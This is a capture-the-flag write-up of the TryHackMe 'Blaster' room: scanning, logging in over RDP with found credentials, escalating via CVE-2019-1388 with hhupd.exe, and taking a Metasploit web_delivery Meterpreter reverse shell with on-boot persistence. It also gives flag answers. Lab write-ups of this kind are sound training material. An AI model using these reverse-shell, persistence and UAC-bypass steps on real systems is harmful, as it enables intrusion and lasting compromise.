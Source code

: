# Blaster

author:: Nathan Acks  
date:: 2021-12-06

* [TryHackMe: Blaster](https://tryhackme.com/room/blaster)

## Mission Start!

The CTF background notes that we'll be attacking a Windows box. So no ping responses again.

## Activate Forward Scanners and Launch Proton Torpedoes

The machine we'll be attacking is at 10.10.223.185. As usual, we'll start out with an nmap scan:

```bash
sudo nmap -v -oA blaster -Pn -A -T4 -sS -script vuln \
          -p- 10.10.223.185
```

Which gives us:

```
# Nmap 7.92 scan initiated Wed Dec  8 19:55:54 2021 as: nmap -v -oA blaster -Pn -A -T4 -sS -script vuln -p- 10.10.223.185
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 10.10.223.185
Host is up (0.23s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
3389/tcp open  ms-wbt-server Microsoft Terminal Services
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2012|2016 (90%), FreeBSD 6.X (85%)
OS CPE: cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2016 cpe:/o:freebsd:freebsd:6.2
Aggressive OS guesses: Microsoft Windows Server 2012 R2 (90%), Microsoft Windows Server 2016 (89%), FreeBSD 6.2-RELEASE (85%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 0.013 days (since Wed Dec  8 19:54:04 2021)
Network Distance: 4 hops
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   34.47 ms  10.13.0.1
2   ... 3
4   351.16 ms 10.10.223.185

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Dec  8 20:12:16 2021 -- 1 IP address (1 host up) scanned in 982.31 seconds
```

FLAG 1: How many ports are open on the target? - 2

Looks like IIS running on port 80. Let's go take a peek.

...And, it's just the default IIS "hello world" page. Looks a damn sight prettier than Apache's.

FLAG 2: What is the title of the webserver's index page? - IIS Windows Server

Since there's nothing obvious here (and because the CTF is prompting us to do so), let's sic gobuster on this to see if there's anything interesting that's not linked to the (default) index page.

```bash
gobuster \
	-t 10 dir \
	-w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt \
	-u http://10.10.223.185/
```

FLAG 3: What is the hidden directory on the webserver? - /retro

Browsing to this directory reveals an entire "Retro Fanatics" website. All posts are by "Wade".

FLAG 4: What username is associated with this hidden directory? - Wade

Pocking around a bit more reveals a somewhat cryptic comment on a post:

> Leaving myself a note here just in case I forget how to spell it: parzival

Who wants to bet that this is Wade's password?

FLAG 5: What potential password is associated with this user? - parzival

Let's load up XFreeRDP and see if we can log in, shall we?

```bash
xfreerdp /dynamic-resolution +clipboard /cert:ignore \
         /v:10.10.223.185 /u:Wade /p:parzival
```

Boom!

FLAG 6: What are the contents of `user.txt`? - `THM{HACK_PLAYER_ONE}`

## Breaching the Control Room

There's no obvious files when pocking around except an hhupd.exe file on the desktop, and IE's history is empty.

Since I know we're looking for a CVE name, at this point I just used the Windows File Explorer to search Wade's home directory for "CVE". And lo-and-behold, there's a cached HTML file in C:/Users/Wade/AppData/Local/Microsoft/Windows/INetCache/Low/IE/7Z6YUWVY called cvename[1].htm which contains a website referencing CVE-2019-1388 (it looks like a slightly older version of the MITRE CVE page on CVE-2019-1388).

FLAG 7: What CVE was the initially compromised user researching? - CVE-2019-1388

(I feel like the approach I just used - making an educated guess about what the CTF was looking for and then just searching for it - is kind of a cop-out. *But*, the hint for this question states that I should check IE's history, which I did... So perhaps the room's broken?)

Anyways, I'm guessing that the hhupd.exe file on the desktop is the one that will exploit this vulnerability, since it's badged as needing administrative privileges and CVE-2019-1388 is a vulnerability in the UAC screen.

FLAG 8: What is the name of the executable the user was experimenting with? - hhupd.exe

In fact, a search for "CVE-2019-1388 exploit" pulls up a page that references hhupd.exe and helpfully links to a YouTube video demoing how this exploit works. It looks like the steps here are:

* Try to run hhupd.exe.
* Show details on the UAC prompt.
* Click on the certificate information link.
* Click on the issuer link. This will open up an instance of IE running with elevated permissions in the background.
* Exit the UAC dialog.
* Bring up the save dialog in IE.
* Navigate to `C:/Windows/System32/*.*` and open cmd.exe.

FLAG 9: What is the output of `whoami` in the terminal spawned using the user's exploit? - `nt authority\system`

The final flag is in the Administrator's Desktop folder.

FLAG 10: What are the contents of `root.txt`? - `THM{COIN_OPERATED_EXPLOITATION}`

## Adoption into the Collective

Target information isn't immediately obvious in Metasploit; after selecting `exploit/multi/script/web_delivery` we'll need to run `info` to see all of the options.

FLAG 11: What is the target number for PSH when using `exploit/multi/script/web_delivery` in Metasploit? - 2

Let's set things up and run the exploit:

```msfconsole
set target 2
set SRVHOST 10.13.26.40
set LHOST 10.13.26.40
set payload windows/meterpreter/reverse_http
run -j
```

(NOTE: I found that I needed to set the SRVHOST option to get Metasploit to deliver the exploit on the right interface.)

This particular exploit outputs and encoded PowerShell script and then starts a local listener to deliver the actual Meterpreter shell. All we need to do is cut-and-paste into our elevated shell.

(For whatever reason, I could *only* get this exploit working with the 32-bit version of Meterpreter *and* the `run -j` command. I'm not sure why...)

FLAG 12: What command can be used in Meterpreter to establish on-boot persistence on this machine? - `run persistence -X`

(NOTE: Meterpreter flags this as being deprecated now; the modern pattern seems to be to background Meterpreter and then switch to and exploit the `exploit/windows/local/persistence` module, probably with `set STARTUP SYSTEM`.)

ELAPSED TIME: 2 h 15 min

## References

* [Using "nmap"](nmap.md)
* [Using "gobuster"](gobuster.md)
* [Using XFreeRDP](xfreerdp.md)
* [CVE-2019-1388 (MITRE)](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-1388)
* [CVE-2019-1388 (nagenrauft-consulting.com)](https://www.nagenrauft-consulting.com/2019/11/21/cve-2019-1388-hhupd-exe/)
* [CVE-2019-1388: Windows Privilege Escalation Through UAC](https://www.youtube.com/watch?v=3BQKpPNlTSo)
* [Using Metasploit](metasploit.md)
* [Using PowerShell](powershell.md)

